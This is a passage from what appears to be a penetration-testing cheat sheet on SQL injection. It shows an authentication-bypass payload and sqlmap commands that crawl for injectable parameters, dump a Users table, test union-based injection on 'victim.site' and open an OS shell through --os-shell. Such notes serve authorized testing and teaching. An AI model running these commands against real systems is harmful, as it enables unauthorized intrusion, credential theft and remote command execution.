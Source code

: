 If you know the username you could of course use that and then only inject on the password parameter.

```
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```

## SQLmap

Sqlmap is a great tool to perform sql-injections.  
Here is the manual.  
[https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### Using sqlmap with login-page

So you need to authenticate before you can access the vulnerable paramter.

You just cature the request using burp suite, and save the requiest in a file. Then your run

```
sqlmap -r request.txt --level 4 --risk 3
```

Since the cookie is saved in the reuqest sqlmap can do it.

### Crawl a page to find sql-injections

```
sqlmap -u http://example.com --crawl=1
```

### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

## Quick Usage

Here we are testing for Union query based based attackes on the id parameter

```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```

### Quick Shell

Here were are testing the email \(username\) parameter for injection to use the built in shell. Based on request file obtained from burp.

```
sqlmap -r req.txt -p email --os-shell
```
